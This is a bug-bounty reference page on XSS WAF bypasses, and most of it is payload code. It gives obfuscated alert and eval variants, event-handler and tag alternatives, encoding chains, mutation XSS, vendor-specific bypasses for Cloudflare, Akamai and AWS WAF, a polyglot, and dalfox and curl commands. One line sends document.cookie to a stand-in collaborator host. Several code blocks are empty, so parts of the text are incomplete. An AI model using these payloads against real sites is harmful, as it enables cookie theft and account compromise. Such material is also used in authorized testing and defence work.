

> Source: https://bugbounty.info/Attack-Surface/Web/Injection/XSS/WAF-Bypass

# WAF Bypass  -  XSS

A WAF saying no doesn't mean the vuln isn't there. It means I need to be smarter. Most WAF rules are regex-based  -  they look for `<script`, `onerror=`, `alert(`, and other signatures. The bypass game is about understanding exactly what the rule matches and finding the gap.

## Baseline Methodology



**Identify the blocking token first.** Send `<script>` alone. Blocked? Try ``. Try `onerror=`. Try `alert(`. Each test tells you what the WAF is keying on.

## Universal Bypass Techniques

### Space Substitutes

WAF rules often look for `onerror=alert` or `onload=alert`. Break up the space:

```html

<svg	onload=alert(1)>         <!-- Tab character -->
  <!-- Tab between attributes -->
               <!-- Newline -->
```

### Alert Substitutes

If `alert` is blacklisted:

```javascript
// Function alternatives
confirm(1)
prompt(1)
console.log(1)
 
// Obfuscated
eval('ale'+'rt(1)')
top['ale'+'rt'](1)
window['\x61\x6c\x65\x72\x74'](1)
(0,eval)('alert\x281\x29')
 
// Template literal
eval`alert\`1\``
 
// From constructor
[].find.constructor`alert\`1\``
```

### Parenthesis Alternatives

```javascript
// Backtick call  -  works in Chrome/FF
alert`1`
fetch`https://COLLAB/?c=${document.cookie}`
 
// With.call / .apply
alert.call(null,1)
```

### Event Handler Alternatives

```html
<!-- Broad event list  -  test which ones the WAF misses -->
<input autofocus onfocus=alert(1)>
<input autofocus onblur=alert(1)>
<select autofocus onfocus=alert(1)>
<textarea autofocus onfocus=alert(1)>
<keygen autofocus onfocus=alert(1)>
<video src=x onloadstart=alert(1)>
<audio src=x onloadstart=alert(1)>
<details open ontoggle=alert(1)>
<marquee onstart=alert(1)>
<object data=x onerror=alert(1)>
<body onpageshow=alert(1)>
```

### Tag Alternatives

```html
<!-- When <script> and  and <svg> are blocked -->
<math><mtext></p><a><mglyph><svg>
<table><td><svg><a xlink:href="javascript:alert(1)">click</a>
<iframe srcdoc="&#60;&#115;&#99;&#114;&#105;&#112;&#116;&#62;alert(1)&#60;/&#115;&#99;&#114;&#105;&#112;&#116;&#62;">
```

## Encoding Chains

### HTML Entity Encoding (inside HTML context)

```html
<!-- Decimal entities -->

 
<!-- Hex entities -->

 
<!-- Mixed -->

```

### URL Encoding (inside href / URL params)

```text
%3Cimg%20src%3Dx%20onerror%3Dalert(1)%3E
%3Csvg%20onload%3Dalert(1)%3E
 
<!-- Double encoding for apps that decode twice -->
%253Cscript%253Ealert(1)%253C/script%253E
```

### Unicode Escaping (in JS context)

```javascript
// JS string context  -  unicode escapes work in identifiers
\u0061\u006c\u0065\u0072\u0074(1)
eval('\u0061\u006c\u0065\u0072\u0074\u00281\u0029')
```

## Mutation XSS (mXSS)

The browser's HTML parser mutates certain inputs before the DOM is built. If a WAF sanitizes the raw string but the browser parses it differently, the sanitizer sees safe HTML while the browser executes XSS.

```html
<!-- Classic mXSS  -  browser fixes malformed HTML in a way that creates XSS -->
<listing></listing>
<noscript><p title="</noscript>">
 
<!-- table context mutation -->
<table><tbody><tr><td>
<a href="javascript:alert(1)"></td></tr></tbody></table>
```

Tools: [DOMPurify bypass database](https://github.com/cure53/DOMPurify/tree/main/test/bypass), Renwa's mXSS research.

## WAF-Specific Patterns

### Cloudflare

Common bypasses that have worked:

```html
<!-- Use less common tags -->
<svg><animate onbegin=alert(1) attributeName=x>
<svg><set attributeName=onmouseover to=alert(1)>
 
<!-- Encoding the event handler value -->

 
<!-- Case + encoding combo -->

```

### Akamai

```html
<!-- Akamai tends to be strict on onerror; try ontoggle -->
<details open ontoggle=alert(1)>
 
<!-- Or focus-based -->
<input id=x tabindex=1><input tabindex=2 onfocus=alert(1)>
```

### AWS WAF (Managed Rules)

```html
<!-- AWS managed rules focus on common XSS signatures  -  less common events often pass -->
<video><source onerror=alert(1)>
<body onresize=alert(1)> (needs iframe to trigger resize)
 
<!-- JS context bypass -->
';eval(String.fromCharCode(97,108,101,114,116,40,49,41));//
```

## Polyglot Payloads

These work across multiple contexts without modification:

```html
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
 
">
```

## Automation

```bash
# Use dalfox with WAF-aware mode
dalfox url "https://target.com/search?q=XSS" --waf-evasion --skip-bav
 
# Burp Intruder with XSS polyglot wordlist
# https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/XSS/XSS-Bypass-Strings-BruteLogic.txt
 
# Custom header bypass  -  some WAFs don't inspect non-standard headers
curl -H "X-Original-URL: /search?q=<script>alert(1)</script>" https://target.com/
```

## Related

- [XSS Overview](../../../../XSS/)
- [Reflected XSS](../../../../Attack-Surface/Web/Injection/XSS/Reflected-XSS)
- [Stored XSS](../../../../Attack-Surface/Web/Injection/XSS/Stored-XSS)
